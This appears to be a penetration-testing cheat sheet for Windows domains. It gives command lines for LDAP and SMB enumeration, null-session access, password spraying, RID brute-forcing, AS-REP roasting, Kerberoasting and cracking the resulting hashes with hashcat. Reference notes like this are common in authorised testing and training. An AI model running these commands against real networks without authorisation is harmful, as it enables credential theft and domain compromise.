 # Windows technologies
Windows tech enumeration

# LDAP
## Look for anonymous binds
```bash
ldapsearch -H ldap://<ip>:<port> -b "dc=domain,dc=local" -x
```   
*Make sure to look for users in the Remote Management Users group*  

## Get users with
```bash
windapsearch.py --dc-ip <ip> -d domain.local -u "" -U
```
​
# SMB
## Enumeration

### smbmap
```bash
# Without creds
smbmap -H <ip>

# With creds
smbmap -H <ip> -u <user> -p <password>
```

### CrackMapExec
```bash
# Enumerate users
crackmapexec smb <ip> -u <user> -p <password> --users

# Perform RID Bruteforce to get users
crackmapexec smb <ip> -u <user> -p <password> --rid-brute

# Enumerate domain groups
crackmapexec smb <ip> -u <user> -p <password> --groups

# Enumerate local users
crackmapexec smb <ip> -u <user> -p <password> --local-users
```

### enum4linux
```bash
enum4linux -U -o <ip>
```

### Null session attack
```bash
smbclient -N -L \\\\<ip>

crackmapexec smb <ip> -u ""
```

### Bruteforcing and password spraying
```bash
crackmapexec smb <ip> -u <username/file> -p <password/file>
```


# Kerberos
## GetNPUsers.py
Impacket's `GetNPUsers.py` will attempt to harvest the non-preauth AS_REP responses for a given list of usernames

### Usage
```bash
GetNPUsers.py domain.local/ -dc-ip <ip> -usersfile <username_file> -format hashcat -outputfile <output>
```

## Kerberoasting
Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name.

```bash
GetUserSPNs.py -request -dc-ip <ip> domain.local/user -save -outputfile <output_file>
```

### Cracking the ticket
```bash
hashcat -m 13100 --force <hash_file> <password_file>
```

#### References
- [https://www.crowdstrike.com/cybersecurity-101/kerberoasting/](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)

# RPC
# Enumeration
```bash
# Null authentication
rpcclient -U '' <ip>

# With creds
rpcclient -U <username> <ip>
```